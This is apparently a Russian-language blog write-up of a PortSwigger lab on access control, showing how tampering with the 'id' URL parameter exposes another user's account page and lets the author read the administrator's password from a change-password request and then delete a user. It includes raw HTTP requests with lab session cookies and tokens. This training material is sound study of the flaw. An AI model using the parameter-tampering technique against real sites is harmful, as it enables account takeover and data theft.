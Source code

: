 ```yaml
---
title: "User ID controlled by request parameter with password disclosure"
date: 2025-07-17
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice/access-control-apprentice/access-control/lab-user-id-controlled-by-request-parameter-with-password-disclosure"
classes: wide
---
```


Для решения лабы нужно получить пароль администратора и удалить пользователя `carlos`. У нас есть креды аккаунта `wiener:peter`.

```
https://0a08009c04cf91c08113e57500d00040.web-security-academy.net/
```

## Solution

Давайте зайдем в наш аккаунт.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_ID_controlled_by_request_parameter_with_password_disclosure/1.png){: height="200" .align-center}

Мы можем поменять пароль, давайте это сделаем. Для смены пароля отправляется следующий `HTTP`-запрос:

```http
POST /my-account/change-password HTTP/2
Host: 0a08009c04cf91c08113e57500d00040.web-security-academy.net
Cookie: session=A8ftLNDC7xCMEgpUPJZiUwxuswsUz3Hr
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a7200db03aa32bb8510b21b00ce0097.web-security-academy.net/my-account?id=wiener
Content-Type: application/x-www-form-urlencoded
Content-Length: 52
Origin: https://0a7200db03aa32bb8510b21b00ce0097.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

csrf=OwtMTy0ECLZB4Ye67gZQHm441sE0XH4t&password=peter
```

В `url` профиля `https://0a08009c04cf91c08113e57500d00040.web-security-academy.net/my-account?id=wiener` есть параметр `id`. Попробую подставить другой логин вместо `wiener`. Например, `carlos`.

Получилось. Значит мы можем попробовать получить доступ к другому аккаунту таким образом. Например к аккаунту администратора `administator`.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_ID_controlled_by_request_parameter_with_password_disclosure/2.png){: height="200" .align-center}

Теперь отправим запрос на замену пароля, чтобы увидить старый пароль от аккаута.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_ID_controlled_by_request_parameter_with_password_disclosure/3.png){: height="200" .align-center}

Из `GET`-запроса мы можем получит пароль администратора `ow5jiz1snvfoh8w5k0wr`. 

```http
POST /my-account/change-password HTTP/2
Host: 0a08009c04cf91c08113e57500d00040.web-security-academy.net
Cookie: session=pGe3qXmI9bEzCKhTqLZX6bNGv0KbdHDz
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a08009c04cf91c08113e57500d00040.web-security-academy.net/my-account?id=administrator
Content-Type: application/x-www-form-urlencoded
Content-Length: 67
Origin: https://0a08009c04cf91c08113e57500d00040.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

csrf=VXv8WXomogQouSE7PomUtxHnScwSkfgS&password=ow5jiz1snvfoh8w5k0wr
```

Попробуем залогиниться.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_ID_controlled_by_request_parameter_with_password_disclosure/4.png){: height="200" .align-center}

Мы получили доступ к аккаунту администратора, теперь удалим пользователя `carlos` для завершения лабы.